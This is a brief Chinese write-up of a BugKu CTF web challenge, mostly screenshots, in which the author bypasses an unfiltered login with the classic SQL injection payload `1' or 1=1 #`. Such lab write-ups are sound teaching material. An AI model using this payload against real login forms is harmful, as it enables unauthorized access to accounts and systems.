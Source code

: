 ### 万能密码

话不多说，直接上题（BugKu CTF）

![](https://pic1.imgdb.cn/item/682ae1da58cb8da5c8fbddd6.jpg)

打开网页先测试一下

![](https://pic1.imgdb.cn/item/682ae20b58cb8da5c8fbddfe.jpg)

没有过滤直接万能密码就能拿到

```sql
1' or 1=1 #
```

![](https://pic1.imgdb.cn/item/682ae23a58cb8da5c8fbde1e.jpg)